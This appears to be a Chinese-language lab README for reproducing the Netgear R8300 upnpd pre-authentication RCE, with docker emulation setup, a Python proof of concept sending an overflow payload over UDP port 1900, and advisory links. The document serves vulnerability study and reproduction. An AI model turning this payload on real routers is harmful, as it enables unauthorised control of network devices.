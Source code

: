 # Netgear R8300 upnpd PreAuth RCE 漏洞


## 漏洞环境

需要先构建 buildroot 环境，交叉编译得到 `nvram.so`：

```sh
$ arm-buildroot-linux-uclibcgnueabi-gcc -Wall -fPIC -shared nvram.c -o nvram.so
```

```sh
# 先将 nvram.so 复制到 system-emu/tools
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it netgear-system /bin/bash
```

## 漏洞复现

```py
import socket
import struct

p32 = lambda x: struct.pack("<L", x)
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
payload = (
    0x604 * b'a' +  # dummy
    p32(0x7e2da53c) +  # v41
    (0x634 - 0x604 - 8) * b'a' +  # dummy
    p32(0x43434343)  # LR
)
s.connect(('192.168.2.2', 1900))
s.send(payload)
s.close()
```

## 参考链接

- https://kb.netgear.com/000062158/Security-Advisory-for-Pre-Authentication-Command-Injection-on-R8300-PSV-2020-0211
- https://ssd-disclosure.com/ssd-advisory-netgear-nighthawk-r8300-upnpd-preauth-rce/
- https://paper.seebug.org/1311/
